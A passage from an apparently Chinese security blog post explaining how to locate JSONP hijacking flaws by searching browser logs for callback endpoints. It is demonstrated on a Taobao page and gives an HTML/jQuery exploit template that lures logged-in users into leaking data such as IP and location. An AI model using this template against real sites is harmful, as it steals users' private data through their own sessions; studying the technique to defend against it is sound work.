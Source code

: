 

#### 寻找方法

我们可以使用如下方法来初步粗略的寻找可能存在漏洞的接口。

1、打开浏览器控制台的 Preseve log ,防止之前找到的结果被刷新的页面覆盖。

 ![17.png](https://raw.githubusercontent.com/59lx/userful_photo/master/myblog_photos/jsonp/17.png)





2、手动通过关键词筛选一些信息，搜索一些关键词，譬如 `callback`,`jsonp` 等，然后以此点进（确实慢，而且效率不高）。

3、这里以淘宝为例，我找到了一个没什么利用价值的页面，只是用来实现整个过程。

 ![18.png](https://raw.githubusercontent.com/59lx/userful_photo/master/myblog_photos/jsonp/18.png)



4、通过构造恶意代码，诱使登陆的用户访问，然后获得数据。（这里淘宝这个页面确实没做特殊的过滤和访问控制，可能是因为数据没什么利用价值）

```html
<html>

<head>
    <script src="jquery.min.js"></script>
    <meta charset="utf-8">
</head>

<body>
    <p id="content"></p>
    <script>
        function 【回调函数名】(data) {
            var p = $('p#content');
            p.html('ip : ' + data.data.ip + '<br>' + ' region：' + data.data.region + '<br>' + ' city: ' + data.data.city);
        }
        $(function() {
            $.ajax({
                type: 'GET',
                url: '接口名',
                dataType: 'jsonp',
                jsonp: 'callback', // 请求 php 的参数名
                jsonpCallback: '回调函数名' // 回调函数名 
            });
        });
    </script>
</body>

</html>
```



 ![19.png](https://raw.githubusercontent.com/59lx/userful_photo/master/myblog_photos/jsonp/19.png)
